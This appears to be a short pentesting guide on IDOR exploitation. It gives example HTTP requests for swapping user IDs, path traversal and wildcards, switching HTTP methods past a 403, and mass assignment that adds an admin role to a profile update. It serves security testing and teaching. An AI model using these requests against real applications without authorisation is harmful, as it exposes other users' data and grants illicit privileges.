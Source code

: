 ## IDOR Exploitation Methodology

### 1. Reconnaissance

```
# Map the application and identify potential IDOR points
GET /api/users/1337/profile
GET /api/users/1337/documents
GET /api/users/1337/settings
```

### 2. Pattern Analysis

```
# Original request
GET /api/users/a7f9cb2c-8954-4611-a918-d1462b29455b/profile

# Analysis:
# - UUID format
# - Potential user identifier
# - Predictable pattern for different users
```

### 3. Parameter Tampering

```
# Try different values
GET /api/users/1338/profile       # Sequential ID
GET /api/users/admin/profile     # Role-based ID
GET /api/users/../profile         # Path traversal
GET /api/users/*/profile          # Wildcard attempt
```

### 4. HTTP Method Switching

```
# Original request
GET /api/users/1337/profile      # Returns 403 Forbidden

# Try different HTTP methods
POST /api/users/1337/profile     # May bypass access controls
PUT /api/users/1337/profile
DELETE /api/users/1337/profile
```

### 5. Mass Assignment Exploitation

```
# Original request to update user profile
PUT /api/users/1337
{
  "name": "John Doe",
  "email": "john@example.com"
}

# Adding unexpected fields
PUT /api/users/1337
{
  "name": "John Doe",
  "email": "john@example.com",
  "role": "admin",
  "verified": true
}
```
